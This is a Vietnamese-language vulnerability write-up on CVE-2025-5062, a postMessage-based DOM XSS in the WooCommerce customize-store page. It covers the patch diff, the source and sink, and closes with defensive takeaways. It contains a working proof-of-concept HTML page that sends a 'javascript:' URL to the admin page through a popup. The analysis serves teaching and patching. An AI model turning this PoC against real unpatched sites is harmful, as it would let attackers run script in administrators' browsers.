







---

## CVE & Basic Info
Plugin WooCommerce cho WordPress có lỗ hổng **Cross-Site Scripting (XSS) dựa trên PostMessage** thông qua trang **'customize-store'** ở tất cả các phiên bản đến và bao gồm **9.4.2**, do việc **xử lý dữ liệu PostMessage chưa đủ an toàn** (không lọc đầu vào và không escape dữ liệu khi xuất ra). Điều này cho phép **kẻ tấn công không cần xác thực** chèn các đoạn script tùy ý vào trang web, mà sẽ thực thi nếu họ lừa được người dùng thực hiện một hành động, ví dụ như **click vào một liên kết**.

* **CVE ID**: [CVE-2025-5062](https://www.cve.org/CVERecord?id=CVE-2025-5062)
* **Vulnerability Type**: Cross Site Scripting (XSS)
* **Affected Versions**: <= 9.3.2 and from 9.4 through 9.4.2
* **Patched Versions**: 9.3.4 and 9.4.3
* **CVSS severity**: Low (6.1) 
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress WooCommerce Plugin](https://wordpress.org/plugins/woocommerce/)

---

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/wordpress-local-and-debugging/).
* **Plugin versions** - **WooCommerce**: **9.4.2** (vulnerable) và **9.4.3** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

---

## Analysis

### Patch diff
Trong phiên bản **vulnerable**, `attachParentListeners()` lắng nghe tất cả các message từ bất kỳ nguồn nào mà không kiểm tra origin, dữ liệu từ message được gán trực tiếp vào DOM dẫn đến nguy cơ **PostMessage-Based XSS** (sub-type của **DOM‑based XSS**).

```js
export function attachParentListeners() {
	const listener = ( event ) => {
    if ( event.data.type === 'navigate' ) {
			window.location.href = event.data.url;
    }
	};
  window.addEventListener( 'message', listener, false );
  return () => {
    window.removeEventListener( 'message', listener, false );
  };
}
```
{: file="client/admin/client/customize-store/utils.js v9.4.2"}

Trong phiên bản **patched**, mã đã bổ sung nhiều lớp kiểm tra và hạn chế so với phiên bản vulnerable, chuyển từ `“chấp nhận mọi message và redirect thẳng”` sang `“chỉ chấp nhận message đáng tin, xác thực cấu trúc và kiểm tra URL trước khi điều hướng”`

```js
export function attachParentListeners() {
  const allowedOrigins = [ getAdminSetting( 'homeUrl' ) ];

	function handleMessage( event ) {
		// Validate the origin.
		if ( ! allowedOrigins.includes( event.origin ) ) {
			// Blocked message from untrusted origin: event.origin.
			return;
		}

		// Validate the structure of event.data.
		if (
			! event.data ||
			typeof event.data.type !== 'string' ||
			typeof event.data.url !== 'string'
		) {
			// Invalid message structure: event.data.
			return;
		}

		// Only allow the 'navigate' type.
		if ( event.data.type === 'navigate' ) {
      // Validate the URL format.
			try {
				const url = parseAdminUrl( event.data.url );
				// Further restrict navigation to trusted domains.
				if (
					! allowedOrigins.some( ( origin ) => url.origin === origin )
				) {
					throw new Error(
						`Blocked navigation to untrusted URL: ${ url.href }`
					);
				}

				window.location.href = url.href;
			} catch ( error ) {
				// Invalid URL: event.data.url.
				captureException( error );
			}
		}
    }
    window.addEventListener( 'message', handleMessage, false );
    	return function removeListener() {
		window.removeEventListener( 'message', handleMessage, false );
	};
}
```
{: file="client/admin/client/customize-store/utils.js v9.4.3"}


_Diff — So sánh thay đổi mã nguồn giữa phiên bản vulnerable và bản patched_

---

### Vulnerable code 
Tuy đã tìm ra source và sink, nhưng khi phân tích mã nguồn của plugin sau khi upload tôi lại không tìm được hàm `attachParentListeners()`


_Kết quả tìm kiếm attachParentListeners()_

Tôi nghĩ mình đã setup sai nên code không được tải về đầy đủ. Nhưng không, khi tìm với từ khóa `"navigate"` tôi nhận được hàm khác tên có chức năng tương tự `attachParentListeners()`


_Kết quả tìm kiếm "navigate"_

👉 Trong bản product, để tối ưu hóa thời gian tải dữ liệu về trình duyệt, plugin đã dùng kỹ thuật [minification](https://digitalm.sg/seo-terms/minification/) loại bỏ khoảng trắng, đặt tên hàm, biến ngắn và một phần obfuscation làm cho mã khó đọc hơn.

File được tải về có tên `5292.js` chứ không phải `utils.js`. Sau khi làm đẹp code, tôi thấy `5292.js` chứa mã của `utils.js` và nhiều mã từ các file khác.

Truy cập trang `customize-store` và thử gửi **postMessage** bằng console của trình duyệt

```
http://localhost/wp-admin/admin.php?page=wc-admin&path=%2Fcustomize-store
```


_Sự kiện alert() khi postMessage từ console browser_

👉 `alert()` được kích hoạt, sử dụng debug trong trình duyệt để xem `5292.js` được tải trong trình duyệt


_5292.js từ debug của browser_

### Sources & Sinks

* **Source**: `event.data` từ `window.postMessage` (cụ thể `event.data.url`)
* **Sink**: `window.location.href = event.data.url` 

---

## Exploit
### Proof of Concept (PoC)

- Tạo trang web với mã nguồn sau:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <button id="openPopup">Open Popup</button>

    <script>
        let popup;

        document.getElementById("openPopup").addEventListener("click", () => {
            // Mở popup
            popup = window.open(
                "http://localhost/wp-admin/admin.php?page=wc-admin&path=%2Fcustomize-store", 
                "popupWindow",
                "width=400,height=300"
            );

            // Chờ popup load xong
            const interval = setInterval(() => {
                if (popup && !popup.closed) {
                    // Gửi message
                    popup.postMessage({ type: 'navigate', url: 'javascript:alert("phu0c ph4m")' }, '*');
                    clearInterval(interval);
                }
            }, 5000);
        });
    </script>
</body>

</html>
```

- Admin truy cập trang web và click `Open Popup`
- Sau 5s, sự kiện JavaScript được kích hoạt


_Sự kiện JavaScript từ popup_

👉 Đúng với mô tả CVE.

> Popup không thể tự động kích hoạt nếu không có tương tác của người dùng
{: .prompt-info }

Ở đây, ta không thể sử dụng `<iframe>` bởi vì `X-Frame-Options: SAMEORIGIN` được set trong response => chỉ khi cùng origin mới nhúng được.


_X-Frame-Options: SAMEORIGIN được set trong response_

---

## Conclusion

Lỗ hổng **CVE-2025-5062** trong plugin **WooCommerce <= 9.4.2** là **PostMessage‑based DOM XSS**. Kẻ tấn công không cần xác thực có thể gửi message độc hại tới trang **customize-store**, khiến trình duyệt nạn nhân thực thi script. Bản vá **9.4.3** đã kiểm tra origin, xác thực cấu trúc dữ liệu và whitelist URL trước khi redirect.

**Key takeaways**:

* **PostMessage‑based DOM XSS** có thể thực thi script khi người dùng tương tác (popup/link).  
* Dữ liệu từ **postMessage** luôn phải coi là không tin cậy.  
* Luôn **validate origin, kiểm tra cấu trúc dữ liệu và URL** trước khi redirect.  
* **Cập nhật plugin** lên bản vá mới nhất để ngăn khai thác.

---

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WooCommerce <= 9.3.2 and from 9.4 through 9.4.2 — CVE-2025-5062](https://patchstack.com/database/wordpress/plugin/woocommerce/vulnerability/wordpress-woocommerce-plugin-9-3-2-9-4-9-4-2-postmessage-based-cross-site-scripting)

---